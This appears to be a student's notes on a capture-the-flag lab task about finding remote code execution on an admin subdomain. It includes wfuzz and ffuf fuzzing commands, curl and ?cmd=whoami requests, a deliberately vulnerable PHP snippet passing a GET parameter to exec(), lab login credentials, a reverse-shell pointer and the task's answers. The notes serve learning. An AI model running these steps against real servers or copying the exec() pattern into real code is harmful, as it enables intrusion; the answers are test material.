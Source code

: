 Now that you have access to the administrator subdomain, you can fuzz for remote code execution and attempt to identify a specific parameter that you can exploit to gain arbitrary access to the machine.  

Remote code execution, also known as arbitrary code execution, allows you to execute commands or code on a remote system. RCE can often exploit this by controlling a parameter utilized by a web server.  

One method of attempting to identify RCE is by fuzzing for a vulnerable parameter using Wfuzz. Similar to how we used Wfuzz for asset discovery. The syntax is the same as previous commands; however, this time we will replace the `FUZZ` command at the end along with a `?` so that the complete `FUZZ` parameter is `?FUZZ=ls+-la` Find an example below from the test environment.

Syntax: `wfuzz -u <http://example.com/?FUZZ=ls+-la> -w <wordlist> --hw 2`

We suggest using the Seclists "big.txt" for fuzzing RCE parameters.  

Now that we know we can control the parameter, we can attempt to gain RCE on the box. Find an example below from the test environment.  

Command used: `curl -vvv http://localhost:8080/test.php?cmd=ls+-la && echo ""`

Rather than fuzzing all the pages that we find to identify RCE, we can utilize code analysis to look at the code running on a page and infer whether or not the code may be vulnerable. Find an example below of how code can run a command and is vulnerable to an attacker controlling the parameter.  

```
<?php    
	$id = $_GET["cmd"];   
	if ($_GET["cmd"] == NULL){   
		echo "Hello " . exec("whoami") . "!";   
	} else {
	   echo "Hello " . exec($id);   
    }   
?>
```

To identify RCE, you can decide whether you want to fuzz parameters of files or you want to review the source code of a file. Your approach may also differ depending on the scenario you are in and what resources or footholds you have at your disposal.

Once you have RCE on the system, you can use a reverse shell such as netcat to gain a shell on the box. Refer to the following cheat sheet for help with reverse shells. [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


---

# Your job

## Log in

- Navigate to http://admin.holo.live/.

	![[Task 13 - Remote Control Empanadas-20240905142323219.webp]]
- Log in with the credentials `admin:DBManagerLogin!`.

	![[Task 13 - Remote Control Empanadas-20240905142604534.webp]]

## Fuzzing

- Use the PHPSESSID cookie that you got after logging in. You can find it using the "Web Develop Tools" from your browser.

	![[Task 13 - Remote Control Empanadas-20240905145623574.webp]]
	The value is `4bat94d2s93tepg4lkgrtjdqkn`.

- Run the following command to fuzz the parameter.

	`ffuf -b PHPSESSID=4bat94d2s93tepg4lkgrtjdqkn -u http://admin.holo.live/dashboard.php\?FUZZ\=pwd -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -fs 1586`

	![[Task 13 - Remote Control Empanadas-20240905150032028.webp]]
	The parameter is `cmd`.

- Navigate to http://admin.holo.live/dashboard.php/?cmd=whoami.

	![[Task 13 - Remote Control Empanadas-20240905150748521.webp]]
	The parameter with the command has worked. The user is www-data.


---
## Answer the questions below

> What file is vulnerable to RCE on the administrator domain?
> `dashboard.php`

> What parameter is vulnerable to RCE on the administrator domain?
> `cmd`


> What user is the web server running as?
> `www-data`

**Next step:** [[Task 14 - Meterpreter session 1 closed. Reason RUH ROH]]
